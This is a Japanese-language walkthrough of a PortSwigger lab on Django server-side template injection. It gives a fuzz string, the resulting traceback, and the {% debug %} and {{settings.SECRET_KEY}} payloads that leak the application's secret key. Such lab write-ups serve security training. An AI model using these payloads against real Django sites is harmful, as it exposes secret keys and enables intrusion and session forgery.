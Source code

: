 # ユーザー指定のオブジェクトを介した情報開示を伴うサーバー側のテンプレート インジェクション

以下のハッキングラボを実施します  
https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects  
このラボは、オブジェクトがテンプレートに渡される方法が原因で、サーバー側のテンプレート インジェクション に対して脆弱です。この脆弱性を悪用すると、機密データにアクセスする可能性があります。

- 1. ハッキングラボにアクセスします
- 2. コンテンツ管理者としてログインします
- 3. 商品ページにアクセスして、編集ボタンを押します
- 4. ファズ文字列を記事に含めてプレビューボタンを押します

```
${{<%[%'"}}%\
```

以下のエラーが表示されます

```
Internal Server Error
Traceback (most recent call last): File "<string>", line 11, in <module> File "/usr/local/lib/python2.7/dist-packages/django/template/base.py", line 191, in __init__ self.nodelist = self.compile_nodelist() File "/usr/local/lib/python2.7/dist-packages/django/template/base.py", line 230, in compile_nodelist return parser.parse() File "/usr/local/lib/python2.7/dist-packages/django/template/base.py", line 486, in parse raise self.error(token, e) django.template.exceptions.TemplateSyntaxError: Could not parse the remainder: '<%[%'"' from '<%[%'"'
```

Django を使ってます

- 5. 記事に以下の構文を入力して保存します

```
{% debug %}
```

- 6. settings を経由して secret_key にアクセスするように記事を変更します

```
{{settings.SECRET_KEY}}
```

- 7. 秘密鍵が記事に表示されるようになります
